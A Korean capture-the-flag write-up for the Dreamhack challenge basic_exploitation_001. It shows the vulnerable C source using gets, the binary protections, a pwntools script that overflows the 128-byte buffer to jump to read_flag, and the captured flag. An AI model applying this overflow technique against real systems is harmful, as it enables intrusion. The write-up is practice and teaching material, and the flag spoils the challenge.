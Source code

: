 https://honey-push-30b.notion.site/basic_exploitation_001-9975e72a5a2d48b1a94556b4386192a3
# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/21c7576b-d7bc-40d6-b0b6-9eab60373a31/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

basic_exploitation_001 문제파일을 다운로드 받을 수 있다.

### **Environment**

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

i386-32-little 즉 32비트이므로 32비트 어셈블리어로 작성해야한다.

NX enabled로 되어있는데 이는 스택,힙 영역에서 실행권한을 제거하여 스택에서 쉘코드를 실행시킬수 없게 한다. 그런데 이 문제에서는 실행을 목표로하는 read_flag가 있고 code영역에 이미 위치하므로 별로 상관은 없다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

버퍼의 크기는 0x80(128)이고 gets로 버퍼에 입력을 받는데 입력의 크기를 검증하지 않기 때문에 버퍼 오버플로우 공격이 가능하다. read_flag 를 실행시키면 되기 때문에 

버퍼의 크기 0x80

SFP 4바이트 

read_flag의 주소로 해주면 된다.

```python
gdb-peda$ print read_flag
$1 = {<text variable, no debug info>} 0x80485b9 <read_flag>
```

read_flag의 주소를 알아내기위해서 print를 이용해서 주소값을 출력하면 0x80485b9임을 알 수 있다.

```python
from pwn import *

p=remote('host1.dreamhack.games',18438)

payload=b'A'*132
payload+=p32(0x80485b9)

p.sendline(payload)

p.interactive()
```

따라서

버퍼크기 + SFP를 덮을 132바이트에 32비트에 맞게 리틀엔디언으로 read_flag의 주소를 붙여서 전송해주면 된다.

```python
┌──(root💀kali)-[~/바탕화면/basic_exploit_001]
└─# python3 ./answer.py
[+] Opening connection to host1.dreamhack.games on port 18438: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
$
```

플래그 값을 얻을 수 있다.

